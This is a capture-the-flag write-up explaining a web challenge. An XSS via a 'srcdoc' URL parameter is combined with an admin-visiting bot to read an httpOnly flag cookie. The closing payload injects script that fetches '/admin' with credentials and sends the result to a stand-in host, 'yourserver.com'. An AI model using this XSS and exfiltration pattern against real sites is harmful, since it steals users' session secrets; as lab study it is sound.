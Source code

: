 ## Overview

By inspecting the page you will see a `credentialless` iframe and a script.

```html
<script>
  document
    .querySelector("iframe")
    .setAttribute(
      "srcdoc",
      new URLSearchParams(document.location.search).get("srcdoc")
    );
</script>
```

As you can see you can easly inject JS code into the website by using a payload like: `http://localhost:3000/?srcdoc=<script>alert('0')</script>`

## Finding the flag

The website doesn't request an api, means we have to inspect the source code.

```md
./
├── bot.js
├── build-docker.sh
├── Dockerfile
├── flag.txt
├── index.js
├── package.json
```

- `index.js`

  flag location:

```js
const flag = fs.readFileSync("./flag.txt", "utf8").trim();
```

the flag variable isn't exposed at all, is is only used to verify access to `/admin`

```js
function check(req, res, next) {
  console.log("cookie", req.cookies);
  if (flag === req.cookies?.FLAG) {
    return next();
  } else {
    return res.status(403).send("Forbidden");
  }
}

app.get("/admin", check, (req, res) => {
  res.send(req.cookies?.FLAG ?? "flag{something something}");
});
```

## Observation

there's an endpoint that will let a bot visit the provided url

```js
const { visit } = require("./bot");
/* ... */
app.get("/bot", async (req, res) => {
  if (req.query?.url) await visit(req.query.url);
  res.send("If it's done it's done.");
});
```

source code: [bot.js](src/bot.js)

the bot checks if url starts with `http://` before visiting it and sets the cookie value as the flag

```js
if (!url.startsWith("http://")) {
  throw new Error("invalid url");
}
await page.setCookie({
  name: "FLAG",
  value: flag,
  domain: DOMAIN,
  path: "/",
  httpOnly: true,
  secure: true,
  sameSite: "Lax",
});
```

We can't get the flag via document.cookie because of `httpOnly` and we can't get the flag in a request header because of `sameSite=Lax`.
Since the bot can access `/admin` which returns the flag (cookie) we will let the bot use it to expose the flag value and simply send it to our server.

## Payload

```
http://localhost:3000/bot?url=http://127.0.0.1:3000/?srcdoc=<script type="module">
const resp = await parent.fetch("/admin", { credentials: "include" });
fetch(`http://yourserver.com?flag=${await resp.text()}`)
</script>
```
